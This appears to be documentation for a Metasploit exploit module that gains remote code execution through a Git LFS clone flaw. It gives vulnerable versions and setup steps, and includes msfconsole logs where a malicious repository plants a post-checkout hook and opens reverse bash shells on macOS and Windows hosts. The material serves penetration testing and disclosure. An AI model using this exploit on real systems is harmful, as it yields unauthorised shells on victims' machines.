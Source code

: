 ## Vulnerable Application

Git clients that support delay-capable clean / smudge
filters and symbolic links on case-insensitive file systems are
vulnerable to remote code execution while cloning a repository.

Usage of clean / smudge filters through Git LFS and a
case-insensitive file system changes the checkout order
of repository files which enables the placement of a Git hook
in the `.git/hooks` directory. By default, this module writes
a `post-checkout` script so that the payload will automatically
be executed upon checkout of the repository.

Versions of Git below those in the following list are vulnerable:
              v2.17.6, v2.18.5,
              v2.19.6, v2.20.5,
              v2.21.4, v2.22.5,
              v2.23.4, v2.24.4,
              v2.25.5, v2.26.3,
              v2.27.1, v2.28.1,
              v2.29.3, v2.30.2

### Vulnerable Installation on Windows Setup

1. Download a vulnerable version of Git for Windows: [v2.30.1](https://github.com/git-for-windows/git/releases/download/v2.30.1.windows.1/Git-2.30.1-64-bit.exe)
2. On the `Select Components` section of the installer, make sure Git LFS is selected (should be by default)
3. Keep clicking `next` until reaching the `Configuring extra options` page, select `Enable symbolic links`, `next`, and then `Install`
4. Open Git Bash as Administrator and enter `export MSYS=winsymlinks:nativestrict`
5. You should now be able to run the exploit and get a session on Windows

### Vulnerable Installation on MacOS Setup

1. You can either download a vulnerable version from [here](https://git-scm.com/download/mac) or install via Xcode by typing `git` into the console
2. Install [Homebrew](https://brew.sh/)
3. Install Git LFS via Homebrew: `brew install git-lfs`
4. Setup Git LFS globally: `git lfs install`
5. You should now be able to run the exploit and get a session on MacOS

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/git_lfs_clone_command_exec`
4. Do: `run`
5. You should get a shell.

## Options

### GIT_URI

Sets the Git repository path. Leave empty for randomly-generated path.

## Scenarios

### Git `v2.20.1` on MacOS 10.14.6

```
msf6 > use exploit/multi/http/git_lfs_clone_command_exec
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/git_lfs_clone_command_exec) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(multi/http/git_lfs_clone_command_exec) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf6 exploit(multi/http/git_lfs_clone_command_exec) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf6 exploit(multi/http/git_lfs_clone_command_exec) > [*] Using URL: http://192.168.37.1:8080/haCxGmXm0G
[*] Server started.
[*] Git repository to clone: http://192.168.37.1:8080/flowdesk.git
[*] Sending payload data...
[*] Sending LFS object...
[+] Deleted .gitattributes
[+] Deleted vnmzvmgyddk
[+] Deleted .git
[*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.132:49433) at 2021-07-12 11:35:47 -0500

msf6 exploit(multi/http/git_lfs_clone_command_exec) > sessions -i -1
[*] Starting interaction with 1...

uname -a
Darwin spaces-Mac.local 18.7.0 Darwin Kernel Version 18.7.0: Tue Aug 20 16:57:14 PDT 2019; root:xnu-4903.271.2~2/RELEASE_X86_64 x86_64
whoami
space
```

### Git `v2.29.0` on Windows 10

```
msf6 > use exploit/multi/http/git_lfs_clone_command_exec
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/git_lfs_clone_command_exec) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf6 exploit(multi/http/git_lfs_clone_command_exec) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(multi/http/git_lfs_clone_command_exec) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf6 exploit(multi/http/git_lfs_clone_command_exec) > [*] Using URL: http://192.168.37.1:8080/dA49tJWzH5Ye
[*] Server started.
[*] Git repository to clone: http://192.168.37.1:8080/otcom.git
[*] Sending payload data...
[*] Sending LFS object...
[+] Deleted .gitattributes
[+] Deleted nllefutt
[+] Deleted .git
[*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.1:61621) at 2021-07-12 11:32:30 -0500

msf6 exploit(multi/http/git_lfs_clone_command_exec) > sessions -i -1
[*] Starting interaction with 1...

uname -a
MINGW64_NT-10.0-19043 DESKTOP-2U9S1AD 3.1.7-340.x86_64 2020-09-22 19:03 UTC x86_64 Msys
```

